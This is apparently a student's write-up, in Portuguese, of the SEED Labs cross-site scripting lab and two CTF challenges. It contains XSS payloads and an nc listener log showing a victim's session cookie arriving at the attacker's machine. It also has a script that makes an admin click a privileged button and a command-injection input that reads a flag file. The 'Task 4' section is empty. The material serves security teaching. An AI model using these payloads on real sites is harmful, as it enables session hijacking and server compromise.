


# SEED Labs - Cross-Site Scripting (XSS) Attack Lab

## Preparation: Getting Familiar with the "HTTP Header Live" tool

Utilizou-se a ferramenta `"HTTP Header Live"` para capturar e analisar pedidos HTTP, em particular, o pedido que é feito quando um utilizador (neste caso Alice) clica no botão `Add friend` no perfil de `Samy`, ou seja, quando se adiciona `Samy` à lista de amigos. O pedido HTTP capturado encontra-se abaixo. Este será útil na `task 4`.

 

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
Cookie: Elgg=6ci56crsicjs6buh3fjo2pf68o
```

## Task 1: Posting a Malicious Message to Display an Alert Window

Depois de fazer _log in_ como Samy (username **samy** e password **seedsamy**) por exemplo, tal como é sugerido no guião, colocou-se o seguinte código JavaScript no campo `Brief description` do seu perfil. Outro campo do perfil onde é esperado _input_ do utilizador, por exemplo `Location`, seria válido, porque não é apenas no campo `Brief description` que o _input_ do utilizador não é devidamente tratado.

```html
<script>alert('XSS');</script>
```


Tal como era esperado, sempre que um utilizador visita o perfil de `Samy` o código é executado e uma janela de alerta é exibida. 

 

## Task 2: Posting a Malicious Message to Display Cookies

Muito semelhante à `task 1`. Tal como é sugerido no guião, substitui-se o código JavaScript da `task 1` pelo seguinte: 

```html
<script>alert(document.cookie);</script>
```

 

Tal como era esperado, sempre que um utilizador visita o perfil de `Samy` (neste caso), o código é executado e uma janela de alerta é exibida com as cookies do próprio utilizador. 

 

## Task 3: Stealing Cookies from the Victim’s Machine

Na `task 2` apenas o utilizador visualizava as suas _cookies_. Para o atacante ter acesso às mesmas é necessário modificar o código JavaScript, como é sugerido no guião, para o seguinte:

```html
<script>document.write('');
</script>
```

- Nota: A explicação do código acima foi omitida, uma vez que, a mesma já se encontra no guião.

 

De modo a ficar à escuta na porta 5555 e imprimir o pedido HTTP GET com as _cookies_, utilizou-se o comando `nc -lknv 5555`, cujo _output_ foi o seguinte:

```sh
[12/09/22]seed@VM:~/.../Labsetup$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.7 56350
GET /?c=Elgg%3Dlutf37jd6iap3futo623ouohpe HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
```

É possível verificar que as _cookies_ recebidas na máquina do atacante coincidem com as que foram impressas na `task 2`.

## Task 4: Becoming the Victim’s Friend


# CTF - Semanas 10 e 11

## Desafio 1

Ao entrar na página web, deparamo-nos com um form simples onde podemos inserir texto, que depois pode ser visto pelo administrador.

  


Se o input do form não for *sanitized*, então esta página fica vulnerável a um ataque XSS, uma vez que é possível colocar uma tag `<script>` no código html da página.

O objetivo é fazer o administrador clicar no botão "Give the flag", uma vez que o utilizador não autenticado não tem permissões para o fazer (mesmo que não esteja `disabled`)

```html
<form method="POST" action="" role="form">
    <div class="submit">     
        <input type="submit" id="giveflag" value="Give the flag" disabled="">      
    </div>
</form>
```

Então, vamos utilizar um script que realize essa ação ao carregar a página, de modo a que seja feito do lado do administrador.

```html
<script> window.onload = function(){document.getElementById('giveflag').click();} </script>
```

  


## Desafio 2

Ao explorar o site, encontramos algumas funcionalidades disponíveis a um utilizador não autenticado, que podemos tentar explorar. Nomeadamente existe funcionalidade que nos permite testar a nossa ligação a um ip específico.

 

Pela forma como é feito, percebemos que é usado o comando linux `ping`, ou seja, existe uma shell de linux a correr no servidor, à qual temos acesso. Sabendo pelo eunuciado que a flag se encontra em `/flags/flag.txt` vamos usar a shell para imprimir o conteúdo deste ficheiro, usando como input `0.0.0.0 | cat /flags/flag.txt`.

 


